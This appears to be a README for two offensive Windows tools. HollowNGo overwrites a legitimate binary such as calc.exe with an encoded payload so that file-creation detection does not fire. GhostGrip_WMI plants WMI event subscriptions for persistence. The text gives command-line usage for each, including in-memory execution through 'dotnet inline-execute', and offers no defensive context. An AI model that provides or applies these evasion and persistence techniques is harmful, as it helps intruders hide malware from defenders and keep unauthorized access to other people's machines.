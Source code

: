 HollowNGo aims to avoid FileCreation Events by reading your payload as bytes, compressing them, and converting the compressed bytes to base64, setting the target file stream length to 0, then the same encoding operation in reverse to write to the target file. THIS IS TO BE RUN ON YOUR MACHINE NOT THE TARGET.

HollowNGo.exe -encode <source.exe> -output <output.txt>
example: HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt

HollowNGo.exe -source <base64_content> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -source <EvilB64.Code> -target C:\Windows\System32\calc.exe


GhostGrip_WMI creates a WMIEventSubscription for your prefered event for persistence. Use HollowNGo prior to set up your executable to avoid FileCreation Events.

GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -randomizename true/false
example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -randomizename true
